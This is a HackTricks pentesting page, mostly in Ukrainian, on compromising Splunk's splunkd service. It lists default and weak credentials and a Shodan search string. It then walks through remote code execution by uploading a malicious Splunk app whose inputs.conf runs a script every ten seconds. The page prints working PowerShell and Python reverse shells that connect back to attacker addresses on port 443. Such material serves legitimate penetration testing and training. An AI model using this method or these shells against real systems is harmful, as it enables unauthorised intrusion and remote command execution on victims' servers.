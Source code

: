 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Основна інформація**

* Інструмент аналітики журналів, що використовується для збору, аналізу та візуалізації даних
* Зазвичай використовується в моніторингу безпеки та бізнес-аналітиці
* Порт за замовчуванням:
* Веб-сервер: 8000
* Служба Splunkd: 8089

### Вектори вразливості:

1. Експлуатація безкоштовної версії

* Пробна версія автоматично перетворюється на безкоштовну версію після 60 днів
* Безкоштовна версія не має аутентифікації
* Потенційний ризик безпеки, якщо не управляти
* Адміністратори можуть не помітити наслідки для безпеки

2. Слабкі місця облікових даних

* Старі версії: стандартні облікові дані `admin:changeme`
* Нові версії: облікові дані встановлюються під час інсталяції
* Потенційна можливість використання слабких паролів (наприклад, `admin`, `Welcome`, `Password123`)

3. Можливості віддаленого виконання коду

* Кілька методів виконання коду:
* Серверні Django додатки
* REST кінцеві точки
* Скриптові введення
* Сценарії сповіщень
* Підтримка крос-платформ (Windows/Linux)
* Скриптові введення можуть виконувати:
* Bash скрипти
* PowerShell скрипти
* Пакетні скрипти

Ключовий потенціал експлуатації:

* Зберігання чутливих даних
* Відсутність аутентифікації в безкоштовній версії
* Кілька векторів для потенційного віддаленого виконання коду
* Можливість використання скриптових введень для компрометації системи

### Shodan

* `Splunk build`

## RCE

### Створення користувацького додатку

Splunk пропонує складний метод для віддаленого виконання коду через розгортання користувацького додатку, використовуючи свої можливості крос-платформного скриптування. Основна техніка експлуатації полягає в створенні шкідливого додатку, який може виконувати реверсні оболонки на системах Windows і Linux.

Користувацький додаток може виконувати **Python, Batch, Bash або PowerShell скрипти**. Більше того, **Splunk постачається з встановленим Python**, тому навіть на **Windows** системах ви зможете виконувати код python.

Ви можете використовувати [**цей**](https://github.com/0xjpuff/reverse_shell_splunk) приклад з **`bin`**, що містить приклад для [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) та [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Або ви можете створити свій власний.

Процес експлуатації слідує послідовній методології на всіх платформах:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
Критичний конфігураційний файл `inputs.conf` активує скрипт шляхом:

* Встановлення `disabled = 0`
* Налаштування інтервалу виконання в 10 секунд
* Визначення типу джерела скрипта

Розгортання є простим:

1. Створіть шкідливий пакет програми
2. Налаштуйте прослуховувач (Netcat/socat) на атакуючій машині
3. Завантажте програму через інтерфейс Splunk
4. Запустіть автоматичне виконання скрипта після завантаження

Приклад зворотного шелу Windows PowerShell:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
Приклад зворотного шеллу Python для Linux:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

На наступній сторінці ви можете знайти пояснення, як цей сервіс може бути зловжито для ескалації привілеїв та отримання стійкості:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
